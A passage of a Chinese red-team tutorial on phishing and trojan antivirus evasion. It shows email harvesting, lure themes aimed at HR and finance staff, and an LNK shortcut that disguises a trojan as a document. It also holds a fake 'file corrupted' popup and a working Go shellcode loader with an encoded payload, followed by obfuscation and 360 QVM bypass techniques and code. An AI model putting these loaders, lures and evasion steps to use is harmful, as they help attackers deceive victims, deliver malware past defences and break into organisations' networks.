# 奇安信攻防社区-【Web实战】钓鱼手法及木马免杀技巧

### 【Web实战】钓鱼手法及木马免杀技巧

钓鱼是攻防对抗中一种常用的手段，攻击者通常伪装成可信任的实体，例如合法的机构、公司或个人，以引诱受害者揭示敏感信息或执行恶意操作，能快速地撕破目标的伤口，快速进内网进行刷分，投递木马同时需要考虑逃避杀毒软件检测，本篇文章将围绕一些常见的钓鱼手法和木马免杀对抗展开

## 【web实战】钓鱼手法及木马免杀技巧

### 简述

> 钓鱼是攻防对抗中一种常用的手段，攻击者通常伪装成可信任的实体，例如合法的机构、公司或个人，以引诱受害者揭示敏感信息或执行恶意操作，能快速地撕破目标的伤口，快速进内网进行刷分，投递木马同时需要考虑逃避杀毒软件检测，本篇文章将围绕一些常见的钓鱼手法和木马免杀对抗展开

### 信息搜集

#### 批量邮箱搜集

[https://app.snov.io/](https://app.snov.io/)  
[http://www.skymem.info/](http://www.skymem.info/)

#### 搜索引擎

一般来说，企业邮箱都存在邮件网关，邮件投递容易被退信拦截，所以我们要选择私人邮箱或不被邮服拦截的邮箱：

> 如 `xx举报，xx招聘`面对大众的邮箱，相关语法：

```go
site:"xxx.com"  举报  
site:"xxx.com"  招聘  
​  
xx公司举报 @126.com  
xx公司招聘 @qq.com
```



### 钓鱼手法

#### 社工钓鱼

-   首先是目标选择，目标群体：`hr、经理、财务` 等安全意识薄弱的人优先选择，提前准备多套场景应对
-   选择目标公司分部进行钓鱼成功率较高，提前想好话术和应变对策，避免被识破，最好不要在总部，避开IT信息安全部
-   社牛的师傅可以尝试电话钓鱼，获取信任再添加微信发送木马（需要过人的心理素质和应变能力，之前从潘高工身上学到很多）

#### 邮件钓鱼

-   群发邮件（不推荐，易被管理员发现或被邮件网关拦截）
-   搜集关键人物个人邮箱定向投递（推荐，隐蔽性强）

##### 福利补贴发放

> 紧贴时事话题，使用各种福利活动吸引目标用户点击，把`钓鱼链接转为二维码`发送




##### 简历投递

> 招聘投递简历，hr面对大量简历不会仔细查看后缀



> 钓鱼文案不会写？没关系，能自动生成就不要手打，这里给我们的`chatgpt`大哥加鸡腿



##### 举报信

> xxx实名举报投诉，这种邮件一般处理反馈速度很快



### 钓鱼文件伪装

#### 通用技巧

-   木马需要打压缩，添加密码并隐藏内容，或对木马文件进行双重压缩，一定程度绕过邮件网关的检测
-   选择不常见的后缀但仍可作为exe执行，如`scr、com`等
-   文件名使用长命名，如果对方文件显示设置不当，预览时候看不到后缀

#### lnk钓鱼

> 如果得知目标单位使用的不是360天擎这类杀软，可使用lnk文件进行钓鱼（360会拦截）

快捷方式目标位置填入：

```php
%windir%\system32\cmd.exe /c start .\.__MACOS__\.__MACOS__\.__MACOS__\.__MACOS1__\xxx.doc &amp;&amp; C:\Windows\explorer.exe ".\.__MACOS__\.__MACOS__\.__MACOS__\.__MACOS1__\fsx.exe"
```



图标更换路径选择：

```php
C:\\Program Files (x86)\\Microsoft\\Edge\\Application  
%SystemRoot%\\System32\\imageres.dll  
%SystemRoot%\\System32\\shell32.dll
```



#### 弹框错误提示

> 运行msgbox提示“文件已损坏”等具有迷惑性的内容

vbs实现

```php
On Error Resume Next  
WScript.Sleep 2000  
msgbox "当前文件已损坏，请更换工具进行打开",64,"提示" 
```

go代码实现

```go
package main  
​  
import (  
    "github.com/gen2brain/dlgs"  
)  
​  
func box() {  
    _, err := dlgs.Info("提示", "当前文件已损坏，请更换工具进行打开")  
  if err != nil {  
    panic(err)  
  }  
}
```

实现效果



#### 文件捆绑器

-   绑定正常文件和恶意木马，运行后会对exe本身进行自删除，然后在当前目录下释放正常文件并打开，并释放木马至 `C:\Users\Public\Videos`目录下运行

> -   1.1版本 bypass常规杀软 (360、def、火绒等)
> -   1.2版本 新增文件释放后自动隐藏



效果实现



### 常见杀软类型

| 杀软类型 | 杀软特点 |
| --- | --- |
| 火绒  | 编译参数限制多，对hash和字符串特征进行识别，静态能过动态基本不查杀，对部分go库调用报毒 |
| 360 | 单360查杀力不高，装了杀毒后直接儿子变爸爸，查杀力大大提升，杀毒会自动上传样本，容易上线后云查杀过一会掉线，推荐使用分离加载方式，并使用反沙箱的代码延长马子时间 |
| 360核晶 | 开启后对整体查杀性能影响不大，避免使用进程注入的方式加载shellcode，执行命令使用bof插件进行替代 |
| Defender | 新增cobaltstrike规则，推荐使用`Stageless`，免杀性比`Stage`好，4.5版本开启`sleep_mask`参数增强免杀性，对体积大的文件查杀度不高 |

### 基础的加载方式

> 以下只是基础的示例，仅仅实现加密解密加载的功能

先使用python脚本进行加密 `payload.c` 文件

```py
import base64  
​  
originalShellcode = b"\xfc\xe8\x89\x00"  
encryptedShellcode = bytes([byte ^ 0xFF for byte in originalShellcode])  
encodedShellcode = base64.b64encode(encryptedShellcode).decode('utf-8')  
​  
print(encodedShellcode)
```



输出的内容填入`encryptedShellcode`进行编译

```go
package main

import (
    "encoding/base64"
    "syscall"
    "unsafe"

    "github.com/lxn/win"
    "golang.org/x/sys/windows"
)

func main() {
    // 通过 base64 和 XOR 解密 shellcode 内容
    win.ShowWindow(win.GetConsoleWindow(), win.SW_HIDE)
    encryptedShellcode := "iz/0k4efv3d3dzYmNiclJiE/RqUSP/wlFz/8JW8//CVXP/wFJz94wD09Oka+P0a320sWC3VbVza2vno2draVmiU2Jj/8JVf8NUs/dqcR9g9vfHUCBfz3/3d3dz/ytwMQP3anJ/w/bzP8N1c+dqeUIT+Ivjb8Q/8/dqE6Rr4/RrfbNra+ejZ2tk+XAoY7dDtTfzJOpgKvLzP8N1M+dqcRNvx7PzP8N2s+dqc2/HP/P3anNi82LykuLTYvNi42LT/0m1c2JYiXLzYuLT/8ZZ44iIiIKh13PskAHhkeGRIDdzYhPv6RO/6GNs07AFFwiKI/Rr4/RqU6Rrc6Rr42JzYnNs1NIQ7QiKKe5Hd3dy0//rY2z8x2d3c6Rr42JjYmHXQ2JjbNIP7osYiinA4sP/62P0alPv6vOka+JR93RbfzJSU2zZwiWUyIoj/+sT/0tCcdfSg//obNaHd3dx13H/dEd3c+/pc2znN3d3c2zQIx6fGIoj/+hj/+rT6wt4iIiIg6Rr4lJTbNWnFvDIii8rd48up2d3c/iLh48/t2d3ecxJ6Tdnd3n/WIiIhYBAMWAx4UWB0EWB0GAhIFDlpEWURZRVkEGx4aWRoeGVkdBHdhI6t+16t+1fOvaU170U01iyzbpfayy1/2ar3+Ctaxwg13pLfzUvyPdjEAdyIEEgVaNhASGQNNVzoYDR4bGxZYQllHV18gHhkTGAAETFciTFcgHhkTGAAEVzkjV0JZRkxXEhlaIiRMVwUBTUZZQFlCXlcwEhQcGFhFR0dDRkZHQFcxHgUSERgPWEZZR1dfFg9een138a3Jhf8SuTLptsakGlHpCzEfaWu1GBbwmbCC5spmVmyh80fqMODP2ALXgmypFSNWG7SVeI0OybyhAGGyF4I4kOtTOz1MqEL3Bv8empA2KC6kL9eYO3xP4ukic3tfP++yRqP8gYDC1Aq3kBknsTnkPu3RSJoVXLtaD3jO3ibMl+cBpDBioUbhePdlxTvlhD+OZ/NDXSwjf1y7hgK70678/6sPEZl2VdgAUuFa17KFDBoUq6Cq9OLDOu5GFZp42AYcsmoQmwd8Xnc2yYfC1SGIoj9Gvs13dzd3Ns93Z3d3Ns43d3d3Ns0v0ySSiKI/5CQkP/6QP/6GP/6tNs93V3d3Pv6ONs1l4f6ViKI/9LNX8rcDwRH8cD92tPK3AqAvLy8/cnd3d3cntJ8IioiIBBIFAR4UEloSAxMVQEMZEVpGREdAQEdHT0ZPWQQfWRYHHhAAWQMSGRQSGQMUBFkUGBp3coKWdw=="
    decodedShellcode, _ := base64.StdEncoding.DecodeString(encryptedShellcode)
    for i := 0; i &lt; len(decodedShellcode); i++ {
        decodedShellcode[i] ^= 0x77
    }

    // 获取 kernel32.dll 中的 VirtualAlloc 函数
    kernel32, _ := syscall.LoadDLL("kernel32.dll")
    VirtualAlloc, _ := kernel32.FindProc("VirtualAlloc")

    // 分配内存并写入 shellcode 内容
    allocSize := uintptr(len(decodedShellcode))
    mem, _, _ := VirtualAlloc.Call(uintptr(0), allocSize, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    if mem == 0 {
        panic("VirtualAlloc failed")
    }
    buffer := (*[0x1_000_000]byte)(unsafe.Pointer(mem))[:allocSize:allocSize]
    copy(buffer, decodedShellcode)

    // 执行 shellcode
    syscall.Syscall(mem, 0, 0, 0, 0)
}
```

### 通用杀软bypass技巧

-   免杀性优先选择远程加载或文件分离加载，但同时也存在一些缺点，前者可能会被溯源或被安全设备封堵url地址，后者需要两个文件更适合维权使用
-   垃圾代码填充，在加载shellcode前先进行无害化操作，干扰沙箱和杀软的判断，或者通过延时执行或增大程序体积一定几率绕过检测
-   选择小众语⾔来编写制作loader特征较少，工具除了CS也可使用vshell等其他自写C2

### 一键生成免杀

> 臭不要脸的我又来安利一波github项目，咳咳，觉得还可以的师傅可以点个star⭐

免杀大师王超攻魔改之作 [https://github.com/wangfly-me/LoaderFly](https://github.com/wangfly-me/LoaderFly)

千机-红队免杀木马自动生成 [https://github.com/Pizz33/Qianji](https://github.com/Pizz33/Qianji)

### 编译参数的影响

```php
go：  
-race   竞态检测编译  
-ldflags '-s -w'   去除编译信息  
-ldflags '-H windowsgui'   隐藏窗口  
​  
garble(混淆库)：  
-tiny                    删除额外信息  
-literals               混淆文字  
-seed=random   base64编码的随机种子
```

举个例子，编译一个无害化的代码使用了 `-literals` 参数，360仍会报毒，不加则不报毒

```go
package main  
​  
func main() {  
    // 两个要相乘的数字  
    num1 := 5  
    num2 := 3  
​  
    result := 0  
​  
    // 使用for循环来进行乘法运算  
    for i := 0; i &lt; num2; i++ {  
        result += num1  
    }  
}
```



`-H windowsgui`参数同样也会对免杀性产生很大影响，如果需要隐藏黑框可以用下面的代码替代（但是win11下仍有黑框）

```go
package main  
​  
import "github.com/lxn/win"  
​  
func main(){  
  win.ShowWindow(win.GetConsoleWindow(), win.SW_HIDE)  
}
```

```go
func box()int{  
    FreeConsole := syscall.NewLazyDLL("kernel32.dll").NewProc("FreeConsole")  
    FreeConsole.Call()  
    return 0  
}  
​  
func main() {  
  box()
```

### 静态特征处理

#### 混淆处理

go低版本 [https://github.com/boy-hack/go-strip](https://github.com/boy-hack/go-strip)

go高版本 [https://github.com/burrowers/garble](https://github.com/burrowers/garble)

#### mangle替换字符串

[https://github.com/optiv/Mangle](https://github.com/optiv/Mangle)

`Mangle.exe -I xxx.exe -M -O out.exe`

mangle处理前后对比，可发现对go编译特征字符串替换为随机字符  


#### base64编码变量

```go
cmd := exec.Command("rundll32.exe", "xxx")
```

关键字符串进行Base64编码，并在相应位置替换变量值

```go
encodedCommand := "cnVuZGxsMzIuZXhl"  
encodedArguments := "MTExTdGFydA=="  
​  
// 解码Base64编码的命令和参数  
decodedCommand, _ := base64.StdEncoding.DecodeString(encodedCommand)  
decodedArguments, _ := base64.StdEncoding.DecodeString(encodedArguments)  
​  
cmd := exec.Command(string(decodedCommand), string(decodedArguments))
```

### QVM绕过

#### 添加资源

1、添加图标签名版权等信息内容，可使用以下项目一键添加


[https://github.com/Pizz33/360QVM\_bypass](https://github.com/Pizz33/360QVM_bypass)  
[https://github.com/S9MF/my\_script\_tools/tree/main/360QVM\_bypass-public](https://github.com/S9MF/my_script_tools/tree/main/360QVM_bypass-public)  
[https://github.com/langsasec/Sign-Sacker](https://github.com/langsasec/Sign-Sacker)





#### 行为特征

运行直接加载shellcode，一般会直接报qvm

```go
package main  
​  
import (  
    "syscall"  
    "unsafe"  
)  
​  
var (  
    ntdll         = syscall.MustLoadDLL("ntdll.dll")  
    VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")  
    RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")  
)  
​  
const (  
    MEM_COMMIT             = 0x1000  
    MEM_RESERVE            = 0x2000  
    PAGE_EXECUTE_READWRITE = 0x40  
)  
​  
func main() {  
​  
    addr, _, err := VirtualAlloc.Call(0, uintptr(len(decryt)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)  
    if err != nil &amp;&amp; err.Error() != "The operation completed successfully." {  
        syscall.Exit(0)  
    }  
    _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&amp;decryt[0])), uintptr(len(decryt)))  
    if err != nil &amp;&amp; err.Error() != "The operation completed successfully." {  
        syscall.Exit(0)  
    }  
    syscall.Syscall(addr, 0, 0, 0, 0)  
}
```

先执行正常行为再进行shellcode加载，qvm无报毒，以下是示例，可根据实际情况进行调整

```go
package main  
​  
import (  
    "syscall"  
    "unsafe"  
)  
​  
var (  
    ntdll         = syscall.MustLoadDLL("ntdll.dll")  
    VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")  
    RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")  
)  
​  
const (  
    MEM_COMMIT             = 0x1000  
    MEM_RESERVE            = 0x2000  
    PAGE_EXECUTE_READWRITE = 0x40  
)  
​  
func main() {  
    num1 := 5  
    num2 := 3  
​  
    result := 0  
​  
    // 使用for循环来进行乘法运算  
    for i := 0; i &lt; num2; i++ {  
        result += num1  
    }  
